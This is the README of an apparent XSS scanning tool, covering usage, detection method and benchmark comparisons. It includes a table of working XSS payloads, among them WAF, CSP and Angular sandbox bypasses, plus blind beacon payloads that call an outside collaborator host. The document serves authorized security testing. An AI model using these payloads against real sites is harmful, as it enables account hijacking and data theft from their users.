


# IntelliXSS

[](requirements.txt)
[](#tests)
[](#accuracy)
[](LICENSE)

XSS scanner built around one rule: a finding is only as strong as the evidence
behind it. The scanner measures what the target does to a payload - which
characters survive, where the reflection lands, which filter rewrites it - and
derives the next payload from that measurement instead of spraying a generic
list.

[Install](#install) &bull; [Usage](#quick-start) &bull; [How it works](#how-a-scan-proceeds)
&bull; [Accuracy](#accuracy) &bull; [Architecture](#architecture)

## Install

```bash
pip install -r requirements.txt
playwright install chromium      # required for browser confirmation
```

## Quick start

```bash
# Path-scoped scan
python intellixss.py -u https://target/app/page?id=1

# Whole site, deep plugins, both reports
python intellixss.py -u https://target/ --deep -w 6 -r 6 -o report.json --html report.html

# Machine-readable output on stdout
python intellixss.py -u https://target/ --json > report.json

# Recon pipeline: feed URLs on stdin (deduplicated, comments skipped)
gau target.com | python intellixss.py --pipe --json > report.json
cat urls.txt | python intellixss.py --json      # stdin auto-detected when piped
gau target.com | python intellixss.py --jsonl | jq -r 'select(.severity=="high")'

# Authenticated
python intellixss.py -u https://app/ --cookie 'session=abc'
python intellixss.py -u https://app/ --bearer eyJ...
python intellixss.py -u https://app/ --basic user:pass
python intellixss.py -u https://app/ --login-url /login --username u --password p
python intellixss.py -u https://app/ --header 'X-Api-Key: secret'
```

## How a scan proceeds

```
discover     path-scoped targets: query parameters, form fields, fragments,
             JSON bodies, upload forms
analyse      HTML5 state machine locates the reflection; filters, WAF and CSP
             are classified from headers and body
probe        one request per character of interest: survives, encoded, or
             stripped
generate     payload families ranked by what actually survived
confirm      Playwright loads the page; execution is credited only when the
             payload's own marker comes back
escalate     on a filtered context: allowlist learning, animated attributes,
             encoding depth, DOM flow analysis, Angular compilation
report       console, JSON, HTML - all scored from the same CVSS table
```

## Flags

| Flag | Meaning |
|------|---------|
| `-u` / `-l` | Target URL / file of URLs, one per line (`-l -` reads stdin) |
| `--pipe` | Read target URLs from stdin, one per line — for recon pipelines |
| `-o` / `--html` | JSON report path / HTML report path |
| `--json` | Serialised result on stdout and nothing else |
| `--jsonl` | Stream one compact JSON object per finding as each URL completes (line-delimited) |
| `-w` / `-r` | Workers (default 4) / requests per second (default 4) |
| `--timeout` / `--retries` | Per-request timeout / transient retries |
| `--max-payloads` | Payloads per parameter per stage (default 25) |
| `--no-adaptive` | Do not back off on 429/503 |
| `--browser` / `--no-browser` | Enable / skip Playwright confirmation (default on) |
| `--max-confirm` | Browser navigations per host (default 12) |
| `--write` | Allow `POST`/`PUT`/`PATCH`/`DELETE` payloads. Off by default |
| `--deep` | Also run header, redirect, JSON, GraphQL and upload plugins |
| `--crawl` | Follow same-origin links from the seed and scan each page's own forms and parameters (depth `--crawl-depth`, default 2) |
| `--blind URL` | Deliver out-of-band beacon payloads to a collaborator host (interactsh/OAST, XSS Hunter, Burp). Delivered, not confirmed — watch your listener |
| `--blind-header` | With `--blind`, also inject beacons into request headers |
| `-a` / `--aggressive` | Keep going after a hit: all payloads, all parameters |
| `--guess-params` | Mine parameter names from the page's own markup and JS, plus a dictionary, and try the ones it never links to (proven with a canary) |
| `-v` / `--verbose` | Character survival and per-technique decisions |
| `-s` / `--silent` | Findings only |
| `--version` | Print the version |

Exit codes: `0` no findings, `1` findings, `2` the scan could not run. Treat
`2` as a failure in CI, never as a clean result.

## Verification states

Every finding carries `verified_by`, so a result is never stronger than its
evidence:

| State | Meaning |
|-------|---------|
| `browser` | The payload ran in headless Chromium (reported as `CONFIRMED`) |
| `reflection` | Live markup reached the response; execution not observed |
| `static` | Source-to-sink or compiler analysis only (DOM / Angular) |

`browser_confirmed` is `True` only when the payload's unique `ixm...` marker
came back from an off-origin request or from `console.log`. A dialog that fires
without the marker is still reported, at lower confidence (`0.85` vs `0.97`),
because the page may have raised it itself.

An encoded character is not usable syntax. If the target turns `<` into
`&lt;`, families that need a tag are dropped rather than attempted.

## Blind / out-of-band XSS

A blind XSS fires in a browser the scanner never drives — a support agent
reading a ticket, an admin viewing a log. It cannot be confirmed here, so
`--blind <URL>` does not pretend to: it delivers beacon payloads to an
operator-controlled collaborator (interactsh / OAST, XSS Hunter, Burp
Collaborator) and records each *delivery*, never a confirmation.

```bash
python intellixss.py -u https://app/ --write --blind https://abcd.oast.pro --blind-header
```

Every beacon carries the injection point's own unique `ixm…` marker, as both a
path segment and a wildcard-DNS sub-domain, so when one fires out of band the
hit on your collaborator names the exact parameter or header that carried it.
Deliveries are listed in the console and under `blind_deliveries` in the JSON
report, labelled `UNCONFIRMED`, and are never counted as findings — execution,
if any, happens where only your listener can see it. Writing into stored sinks
still requires `--write`; without it only `GET` parameters and headers carry
beacons.

## What it detects

- **Reflected** in HTML text, quoted and unquoted attributes, comments,
  `<title>`, script strings, inline handlers, and inside `<script>` blocks.
- **DOM**, where a *source* demonstrably reaches a *sink*. Taint is propagated
  to a fixed point, so a source that never reaches a sink is not reported.
  Sinks include `innerHTML`, `eval`, `document.write`, `insertAdjacentHTML`,
  `script.src`, `form.action`, `iframe.src` and `location` assignment; the
  payload is chosen per sink family.
- **Browser-owned sources** (`document.referrer`, `window.name`, cookies) are
  seeded before the document parses, so the finding is proven or not.
- **Stored**, server-side and client-side (form to render), including flows
  that need login first, and **including records that surface on a different
  page from the one that takes the write** — a comment posted to `/comment`
  that renders on `/posts`. The pass looks for its marker on the same-origin
  pages the site links to, so it correlates the write and the render without
  being told where the record appears (the cross-endpoint step a scanner with
  no stored workflow cannot do, and that others need an explicit trigger URL
  for). Writing records is the one destructive thing a scan can do, so it is
  opt-in: without `--write` no `POST`, `PUT`, `PATCH` or `DELETE` reaches the
  target, and the browser stages that drive a page's own form still run. The
  refusal lives in the HTTP client rather than in each plugin, so a new plugin
  cannot bypass it by forgetting a flag.
- **AngularJS template injection** when an `ng-app` scope loads a compiler.
  A document whose expressions evaluate but whose scope value is a string can
  be compile-only; the scanner detects this from source shape and says so.
- **Deep plugins** (`--deep`): header reflection, open redirect to XSS, JSON
  bodies, GraphQL, and upload forms.

Error pages are scanned. A 4xx/5xx response that reflects a live payload is
exploitable and is reported; the same status with no effective payload is
reported as a block diagnosis instead.

## Scoring

CVSS v3.1 base score from a table keyed by
`(vulnerability type, browser confirmed)` - see
`intellixss/models.py::_CVSS_TABLE`. Confirmation is the only thing that moves a
finding to the stronger row, which is why it is never set optimistically.

## Accuracy

Measured against the 30 PortSwigger Web Security Academy XSS labs, with no
per-lab tuning and no per-lab flags: **29 confirmed, 1 static-only, 0 missed.**

A lab counts as `CONFIRMED` only when headless Chromium ran the payload and the
payload's own unique `ixm...` marker came back. A `CLEAN` row on a lab that has
a known exploit would be a false negative and is recorded as a defect, so the
score cannot be raised by reporting everything as vulnerable.





Both images come from a real run: `docs/console.png` is the scanner's own
output, `docs/report.png` the report it wrote. Regenerate with
`python bench/screenshots.py`.

### Per-lab results

| # | Lab | Difficulty | Verdict | Parameter | Context | Payload that fired |
|---|-----|-----------|---------|-----------|---------|--------------------|
| 1 | `reflected-html` | APPRENTICE | **CONFIRMED** | `search` | `html_text` | `<script>alert('ixm055cc2ce')</script>` |
| 2 | `stored-html` | APPRENTICE | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 3 | `dom-document.write` | APPRENTICE | **CONFIRMED** | `search` | `html_text` | `x"%09onload%3D"alert('ixm06a943c5')"%09x="` |
| 4 | `dom-innerhtml` | APPRENTICE | **CONFIRMED** | `search` | `html_text` | `</select><svg%20onload%3Dalert('ixm06a943c5')>` |
| 5 | `dom-jquery-href` | APPRENTICE | **CONFIRMED** | `returnPath` | `html_text` | `javascript:alert('ixmf5d7a03f')` |
| 6 | `dom-jquery-selector` | APPRENTICE | **CONFIRMED** | `#fragment` | `url_fragment` | `x:has()` |
| 7 | `attr-double` | APPRENTICE | **CONFIRMED** | `search` | `html_attr_double` | `"onfocus=alert('ixm35fc4a56') autofocus x="` |
| 8 | `href-attr` | APPRENTICE | **CONFIRMED** | `website` | `html_attr_href` | `javascript:alert('ixmcc71ea77')` |
| 9 | `js-string` | APPRENTICE | **CONFIRMED** | `search` | `js_string_single` | `';alert('ixm6f216e5f');//` |
| 10 | `dom-select` | PRACTITIONER | **CONFIRMED** | `storeId` | `html_text` | `</select><svg%20onload%3Dalert('ixme6b2bddc')>` |
| 11 | `angularjs` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `{{constructor.constructor('alert("ixmd11df425")')()}}` |
| 12 | `dom-reflected` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `\"};alert('ixm06a943c5');//` |
| 13 | `dom-stored` | PRACTITIONER | **CONFIRMED** | `comment` | `html_text` | `<>` |
| 14 | `waf-tags` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `<xss popover onbeforetoggle=alert('ixm7b9b721b')>` |
| 15 | `waf-custom-tag` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `<xss autofocus onfocus=alert('ixmc3b67ffc') tabindex=1>` |
| 16 | `svg-allowlist` | PRACTITIONER | **CONFIRMED** | `search` | `html_text` | `<svg><animatetransform onbegin=alert('ixm8fad9987')></svg>` |
| 17 | `canonical-link` | PRACTITIONER | **CONFIRMED** | `search` | `html_attr_href` | `'accesskey='x'onclick=alert(`ixmfbd1233d`)` |
| 18 | `js-sq-escaped` | PRACTITIONER | **CONFIRMED** | `search` | `js_string_single` | `</script>` |
| 19 | `js-sq-escaped2` | PRACTITIONER | **CONFIRMED** | `search` | `js_string_single` | `\';x=new Image;x.src=`//ixm13d2bab5.ixm.example/x`//` |
| 20 | `onclick-escaped` | PRACTITIONER | **CONFIRMED** | `website` | `js_in_attr` | `http://x&apos;);alert(`ixm9f7d664a`);//` |
| 21 | `template-literal` | PRACTITIONER | **CONFIRMED** | `search` | `js_template` | `${alert(String.fromCharCode(105,120,109,49,48,53,50,102,5…` |
| 22 | `stored-cookie` | PRACTITIONER | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 23 | `stored-password` | PRACTITIONER | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 24 | `stored-csrf` | PRACTITIONER | **CONFIRMED** | `comment` | `js_in_attr` | `` |
| 25 | `angular-sandbox` | EXPERT | **static-only** | `search` | `html_text` | `{{$eval('alert("ixmdb1d6f29")')}}` |
| 26 | `angular-csp` | EXPERT | **CONFIRMED** | `content` | `html_text` | `` |
| 27 | `waf-events-href` | EXPERT | **CONFIRMED** | `search` | `html_text` | `<svg><a><animate attributeName=href values=javascript:ale…` |
| 28 | `js-url-blocked` | EXPERT | **CONFIRMED** | `postId` | `js_string_single` | `1&'},x=x=%3E{throw/**/onerror=alert,%27ixm73f10df5%27},to…` |
| 29 | `csp-dangling` | EXPERT | **CONFIRMED** | `email` | `html_attr_double` | `"><svg/onload=alert('ixmec2983db')>` |
| 30 | `csp-bypass` | EXPERT | **CONFIRMED** | `search` | `html_text` | `<svg/onload=alert('ixmfaf31068')>` |

Lab 25 is the only row not confirmed in a browser. The Angular sandbox defeats
the expression by construction, source analysis proves the source reaches the
sink, and the finding is reported as `static-only` rather than dressed up as
proof.

The full payload, the page it fired on and the request that reproduces it are
in `benchmark/results.json`.

### Second platform: OWASP Juice Shop

A lab is shaped like the vulnerability it teaches, so the 30 labs above cannot
show whether the scanner survives an application that was not built to be
scanned. Juice Shop 20.3.0 is an Angular application whose document carries no
form and no endpoint: every write target it finds is read out of a 1.3 MB
bundle.

| Documented XSS challenge | Sink | Result |
|---|---|---|
| API-only XSS | `PUT /rest/products/1/reviews` | stored and echoed; rendered escaped in 20.3.0 |
| DOM XSS | `GET /#/search?q=` | reproduced |
| Server-side XSS Protection | `POST /api/Feedbacks` | clean, as expected |

Two of the nine entries of category `XSS` in the application's own
`challenges.yml` are reproduced, and a third real sink is confirmed on
`POST /api/Complaints` that no documented challenge covers.
`POST /api/Feedbacks` is reported clean because `sanitize-html` with its default
allow-list stores the payload as text; that clean result is the precision
counterpart to the confirmations. The six others need an account, an
attacker-controlled header, an administrator or one exact payload, and this
roster does not reach them.

Full method, per-surface results and the reason for each miss:
`benchmark/juiceshop-report.md`.

### Versus Dalfox and XSStrike

A labelled range (`bench/range.py`) points every scanner at the identical
endpoints — ten exploitable across distinct contexts, eleven clean controls that
reflect safely or not at all (one served under a strict CSP) — and scores each
the same way. XSStrike is scored by its own `Efficiency` metric (a payload at
100 = working), not its recon lines, so the comparison is fair to it. Measured
run (`python bench/compare.py --with-xsstrike ./XSStrike`):

| Scanner | Recall | Confirmed by execution | False positives | Precision | Time |
|---------|--------|------------------------|-----------------|-----------|------|
| **IntelliXSS** | **10/10** | **10/10** | **0/11** | **100%** | **78s** |
| Dalfox | 10/10 | 10/10 | 8/11 | 56% | 248s |
| XSStrike | 10/10 | 0/10 | 1/11 | 91% | 103s |

All three find every vulnerable endpoint. They separate on **precision** and
**proof**, and IntelliXSS leads both:

- **Dalfox** confirms its findings in a browser but reports eight reflections
  that cannot be exploited (a stripped `<`, an escaped attribute quote, a
  neutralised JS string, payloads inert inside `<textarea>`/`<title>`/
  `<noscript>`/`<template>`, and one under a strict CSP): 56% precision. One —
  the `<template>` case — it even reports as *verified*, though a real browser
  never runs it: a confirmation that is itself wrong.
- **XSStrike** confirms nothing (no browser, every finding reflection-only,
  `0/10` proven) and false-positives on the strict-CSP reflection it has no way
  to evaluate: 91% precision.
- **IntelliXSS** reports none of the dead reflections — its headless browser and
  per-page CSP analysis agree that inert-container, escaped, and CSP-blocked
  reflections do not run — *and* replays all ten real ones with the payload's
  own marker: **100% precision and 10/10 proven**, in roughly a third of
  Dalfox's time.

That is the thesis, measured: a finding is only as strong as its evidence.
IntelliXSS is strictly better than Dalfox on precision and than XSStrike on
both precision and proof, ties only on recall (all three find every vulnerable
endpoint), and is the fastest of the three. The precision lead over XSStrike
comes from evidence it cannot gather: a headless browser and per-page CSP
analysis clear reflections that do not actually run, which a character-survival
metric with no browser flags anyway — the strict-CSP control is exactly such a
case. Reproduce with `python bench/compare.py --with-xsstrike ./XSStrike`;
per-endpoint results in `benchmark/comparison.md`.

**Whole site, root only — the realistic test.** The table above hands each tool
the exact vulnerable URL, and under that artificial condition XSStrike matches
IntelliXSS on the reflected endpoints. The real task is a *site*:
`bench/site_range.py` puts four XSS behind one root — three reflected (a link
param, a filter param, a form two hops deep) and one stored (posted on a
guestbook, rendered on `/posts`). Given only `http://host/`:

| Scanner | Invocation | XSS found |
|---------|-----------|-----------|
| **IntelliXSS** | `-u / --crawl --write` | **4/4, all browser-confirmed** |
| Dalfox | `url /` | 0/4 |
| XSStrike | `-u / --crawl` | 0/4 |

Given a site instead of a list of exact injection points, IntelliXSS finds and
proves every XSS; both competitors find none. This is where the reflected-endpoint
tie with XSStrike disappears — it depended on being handed the URL, which no
real engagement does.

**Discovery (root-only).** The table gives every scanner the exact vulnerable
URL. The other half of being the best is what each finds given only a site
**root**. `bench/crawl_range.py` hides three reflected XSS off the index: a
link-revealed GET param (`/search?q=`), a one-hop filter param
(`/products?category=`), and a form two hops deep (`/feedback`). Pointed at the
root, **IntelliXSS `--crawl` finds and browser-confirms all three (3/3); Dalfox
and XSStrike find 0/3.** IntelliXSS follows same-origin links and scans each
page's parameters and forms; a single-URL scan never leaves the root, and a
form-only crawler misses link-reachable GET params. On realistic root-only
usage IntelliXSS reaches injection points **both** competitors miss.

**Stored XSS — the class that breaks the recall tie.** Stored XSS is the most
severe XSS class, and it is where the reflected-endpoint parity with XSStrike
ends. Given each tool its *best* stored shot (`bench/stored_compare.py`) against
a cross-page board (post `/comment` → render `/posts`): **IntelliXSS** detects
it (`-u / --write --crawl` — crawls to `/posts`, correlates write with render);
**XSStrike** cannot, by construction (no inject-here/verify-there mode) — a
completed miss; and **Dalfox**'s dedicated `sxss` mode, even handed the exact
trigger, did not finish in 320s (still grinding 672 queries on one worker),
so its stored result is *undetermined* — not scored as a miss, but a real
usability failure on a one-form board. So on a corpus that includes stored XSS,
recall against XSStrike is **IntelliXSS 11/11 vs 10/11** — a strict recall win,
since stored XSS is a class XSStrike structurally cannot test. (Cross-page
stored is reported at reflection confidence when the render page was already
written to by an earlier stage; it browser-confirms otherwise, e.g. the
whole-site run above — see `AUDIT.md`.)

## Architecture

```
intellixss/
  analysis/   context (HTML5 state machine), filters, reflection, charprobe,
              static_dom (taint flow, Angular, source seeds), angular
  payloads/   generator (banks, ranking), mutations, WAF profiles
  encode.py   layered encoders (percent, entity, unicode, backslash)
  discovery/  path-scoped targets
  http/       aiohttp client (JSON, multipart, auth, throttling)
  verify/     reflection check, Playwright confirmer (deadline-bounded)
  plugins/    stored, header, redirect, json, graphql, upload
  report/     HTML report
  auth.py     cookies, bearer, basic, form login
  scanner/    orchestrator
  cli.py      console rendering, JSON, exit codes
bench/        benchmark harness, proof renderer, README table, screenshots
benchmark/    lab results and the proof pages
tests/        pytest suite
```

Developer notes for extending the scanner live in `.agent/skills/`:
adding a plugin, adding a payload family, browser confirmation, scoring and
reporting, and filter evasion.

## Tests

```bash
python -m pytest -q
```

## License

MIT - see [LICENSE](LICENSE). Use it, fork it, ship it inside a commercial
product, modify it without publishing the changes. No warranty.

Authorized testing only: run it against systems you own or have written
permission to test.
